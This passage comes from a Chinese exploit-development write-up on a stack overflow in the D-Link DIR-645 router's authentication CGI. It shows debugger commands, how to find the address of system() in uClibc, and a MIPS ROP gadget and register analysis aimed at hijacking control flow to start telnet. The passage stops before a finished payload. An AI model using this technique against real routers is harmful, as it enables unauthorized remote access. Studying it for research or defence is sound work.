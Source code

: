 ```
b *0x40b024                    //在authenticationcgi_main处下断点
c                              //继续运行，这两步主要是为了让程序加载动态库
vmmap                          //查看内存布局
```
![DIR645](vmmap1.png)
可以看到程序调用了/lib/libuClibc-0.9.30.1.so库文件，并且其加载基址是0x7f738000（偏移为零的位置）。之后我们可以打开这个库文件搜索函数system，得到其相对偏移offset（0x53200），将其加上基址即可得到绝对地址0x7f78b200。当然也可以不用这么复杂，直接使用GDB命令``` disas system ```即可得到绝对地址。

### 构造ROP
#### 1 如上所述，我们已经能够成功劫持PC，并可以在指定偏移处填充指定数据。根据漏洞利用的方式是执行system函数来开启telnet服务，那我们第一想到的就是在ra处跳转到system函数，随之而来的问题就是其参数该如何传递，所以我们需要一个gadgets替我们传递参数，我们希望在动态库中查找一个能在栈中取参数到$a0的，之后在跳转到system的调用。使用插件MIPS ROP FINDER中的函数mipsrop.stackfinder(),之后选取一段gadgets(0x159cc)如下：
```
.text:000159CC                 addiu   $s5, $sp, 0x170+var_160
.text:000159D0                 move    $a1, $s3
.text:000159D4                 move    $a2, $s1
.text:000159D8                 move    $t9, $s0
.text:000159DC                 jalr    $t9 ; mempcpy
.text:000159E0                 move    $a0, $s5
```
为了让其执行system,我们需要替换掉$s0为system函数地址，替换掉$s5也就是 $sp+0x10(这里的$sp不在是当前函数的$sp了，由于流水线效应，在执行跳转返回的时候其后面指令已经执行，当前函数栈就已经平栈了) 为要执行的命令。为了防止混乱，先看下函数authenticationcgi_main结尾处：
```
.text:0040BCB0                 lw      $ra, 0xF90+var_4($sp)
.text:0040BCB4                 lw      $gp, 0xF90+var_F78($sp)
.text:0040BCB8                 move    $v0, $zero
.text:0040BCBC                 lw      $fp, 0xF90+var_8($sp)
.text:0040BCC0                 lw      $s7, 0xF90+var_C($sp)
.text:0040BCC4                 lw      $s6, 0xF90+var_10($sp)
.text:0040BCC8                 lw      $s5, 0xF90+var_14($sp)
.text:0040BCCC                 lw      $s4, 0xF90+var_18($sp)
.text:0040BCD0                 lw      $s3, 0xF90+var_1C($sp)
.text:0040BCD4                 lw      $s2, 0xF90+var_20($sp)
.text:0040BCD8                 lw      $s1, 0xF90+var_24($sp)
.text:0040BCDC                 lw      $s0, 0xF90+var_28($sp)  //替换掉$s0是可以做到的
.text:0040BCE0                 jr      $ra
.text:0040BCE4                 addiu   $sp, 0xF90
```
很明显这一段代码在还原相关寄存器的值，由于是从堆栈中取值，所以我们是可以通过溢出操控的。问题在于，当我们使用system地址覆盖$s0的时候，后面的数据由于地址低位的0的存在导致读不到栈中，会导致利用失败，这就导致我们需要另寻他法。图解如下：